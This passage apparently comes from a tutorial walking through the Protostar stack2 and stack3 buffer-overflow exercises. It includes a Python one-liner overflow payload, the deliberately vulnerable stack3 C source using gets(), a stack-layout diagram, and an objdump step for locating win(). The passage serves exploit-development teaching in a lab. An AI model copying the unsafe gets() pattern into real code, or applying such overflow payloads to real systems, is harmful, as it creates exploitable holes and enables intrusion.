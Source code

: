 ```html
GREENIE = [PADDING OF 64] [0x0d0a0d0a]

cd /opt/protostar/bin/
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
export GREENIE
echo $GREENIE
./stack2
```

### Fourth Exercise "Stack Three"

This exercise will be the last one we will see in this article, here is the code:

```html
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (* fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

In the above code, we can clearly understand that the vulnerability occurs when the `gets()` function is used. We will examine what the stack looks like in this case:

```html
[buffer 64][fp][saved ebp][saved eip]
```

What we see here is that `fp` in this case is a pointer of a function and the program will jump to what `fp` contains. So what we need to move on is just make sure we have the address of `win` in the `fp` variable.

```html
cd /opt/protostar/bin
objdump -d stack3 | grep "win"
```
